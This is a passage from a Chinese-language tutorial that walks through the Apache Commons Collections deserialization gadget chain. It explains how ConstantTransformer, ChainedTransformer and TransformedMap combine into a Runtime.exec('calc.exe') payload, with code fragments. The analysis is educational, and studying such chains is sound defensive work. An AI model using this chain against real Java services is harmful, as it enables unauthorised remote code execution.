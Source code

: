 因此我在payload中第一部生成的transformers数组的效果等价于

```
transformers[1]
input.getMethod("getRuntime", null)

transformers[2]
input.invoke(null, null);

transformers[3]
input.exec("calc.exe");
```

input是后面调用`transform(Object input)`的传参，但是这3个明显是闲散的，我们的目的是把它们组合起来

回到payload中`transformers`数组的第一个值是

```
new ConstantTransformer(Runtime.class)
```

为什么它的画风和其他的值不一样，这个我理解的是它会告诉之后的操作是从哪个类里面进行查找的

下面的`ChainedTransformer`是将数组存储为一个对象

```
Transformer transformerChain = new ChainedTransformer(transformers);
```

上面的对象将当做参数绑定到`TransformedMap`中，当然一同绑定的还有一个普通的hashmap对象

```
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
```

这里说明下为什么要申请个`TransformedMap`对象

我们为了把`transform`里面的内容组合起来，`TransformedMap`中有个如下函数

```
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
	super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}

protected Object checkSetValue(Object value) {
	return this.valueTransformer.transform(value);
}
```

申请对象的时候 上面传进来的`TransformerChian`会存储在`this.valueTransformer`中，然后`checkSetValue(Object value)`会调用`this.valueTransformer`的transform方法,并且参数是从checkSetValue中传参数入的

看一下`ChainedTransformer`类的transform方法

```
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```

